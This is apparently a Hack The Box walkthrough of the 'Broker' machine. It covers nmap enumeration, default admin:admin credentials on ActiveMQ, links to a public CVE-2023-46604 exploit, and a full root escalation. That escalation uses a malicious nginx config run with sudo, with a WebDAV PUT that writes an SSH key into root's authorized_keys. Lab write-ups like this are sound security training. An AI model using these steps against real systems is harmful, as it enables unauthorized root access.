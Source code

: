 ```yaml
---
title: "Broker"
date: 2025-01-23
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "htb writeup", "broker", "htb walkthrough", "hackthebox", "writeup"]
---
```


# Broker

# Broker

# Summary
- ActiveMQ 5.15.15
# Enumeration
- Using `admin : admin` provides access to the admin portal.
# Initial Access
- Using the public exploit, gain initial access as activemq.
	- Had to install go lang. 
# Privilege Escalation
- `sudo -l` activemq has sudo privileges to run `/usr/sbin/nginx`.
- Modify `nginx.conf` with malicious payload.
	- change the user to root from www-data so the nginx process runs from root.
	- add listening port.
- Generate ssh key.
	- `curl PUT` to put the generated ssh public key via the listening port. 
- SSH as root.a

# Enumeration
## Nmap
# TCP
```sh
└─$ nmap -sC -sV 10.10.11.243                 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-01 13:33 AEST
Nmap scan report for 10.10.11.243
Host is up (0.016s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-title: Error 401 Unauthorized
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# UDP
```sh
└─$ sudo nmap -sU --top-ports 20 -sV 10.10.11.243 
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-01 13:34 AEST
Nmap scan report for 10.10.11.243
Host is up (0.017s latency).

PORT      STATE         SERVICE      VERSION
53/udp    closed        domain
67/udp    closed        dhcps
68/udp    open|filtered dhcpc
69/udp    closed        tftp
123/udp   closed        ntp
135/udp   closed        msrpc
137/udp   closed        netbios-ns
138/udp   closed        netbios-dgm
139/udp   closed        netbios-ssn
161/udp   closed        snmp
162/udp   closed        snmptrap
445/udp   closed        microsoft-ds
500/udp   closed        isakmp
514/udp   closed        syslog
520/udp   closed        route
631/udp   closed        ipp
1434/udp  closed        ms-sql-m
1900/udp  closed        upnp
4500/udp  closed        nat-t-ike
49152/udp closed        unknown
```
## 80-HTTP
![screenshot](/assets/images/broker1.png)
-> signed in as `admin : admin`

![screenshot](/assets/images/broker2.png)
- ActiveMQ 5.15.15
# gobuster
![screenshot](/assets/images/broker3.png)

# Initial Access
https://github.com/X1r0z/ActiveMQ-RCE/tree/main

https://www.prio-n.com/blog/cve-2023-46604-attacking-defending-ActiveMQ

Modified poc.xml
![screenshot](/assets/images/broker4.png)

install golang
https://medium.com/@yadav-ajay/go-lang-on-kali-linux-5cc40a78d7de

![screenshot](/assets/images/broker5.png)

# Privilege Escalation
![screenshot](/assets/images/broker6.png)
![screenshot](/assets/images/broker7.png)

![screenshot](/assets/images/broker8.png)
```sh
/usr/bin/java -Xms64M -Xmx1G -Djava.util.logging.config.file=logging.properties -Djava.security.auth.login.config=/opt/apache-activemq-5.15.15//conf/login.config -Dcom.sun.management.jmxremote -Djava.awt.headless=true -Djava.io.tmpdir=/opt/apache-activemq-5.15.15//tmp -Dactivemq.classpath=/opt/apache-activemq-5.15.15//conf:/opt/apache-activemq-5.15.15//../lib/: -Dactivemq.home=/opt/apache-activemq-5.15.15/ -Dactivemq.base=/opt/apache-activemq-5.15.15/ -Dactivemq.conf=/opt/apache-activemq-5.15.15//conf -Dactivemq.data=/opt/apache-activemq-5.15.15//data -jar /opt/apache-activemq-5.15.15//bin/activemq.jar start 
```

```sh
# show comments only
cat nginx.conf | grep -v '\#' | grep .
```

![screenshot](/assets/images/broker9.png)

change the user to root on `nginx.conf`

we will use the `ngx_http_dav_module` to write our public SSH key into the root user's `authorized_keys` file. To do so, we start by creating the malicious NGINX configuration file, which looks as follows:

pwn.conf
```sh
user root; # worker processes will be run by root
worker_processes 4;
pid /tmp/nginx.pid;
events {
		worker_connections 768;
}
http {
	server {
		listen 1337;
		root /;
		autoindex on;
		dav_methods PUT;
	}
}
```

![screenshot](/assets/images/broker10.png)

![screenshot](/assets/images/broker11.png)

![screenshot](/assets/images/broker12.png)

From Kali
```sh
ssh-keygen -f broker

curl 10.10.11.243:1337/root/.ssh/authorized_keys --upload-file broker.pub
```

ssh as root
```sh
ssh -i broker root@10.10.11.243
```

![screenshot](/assets/images/broker13.png)
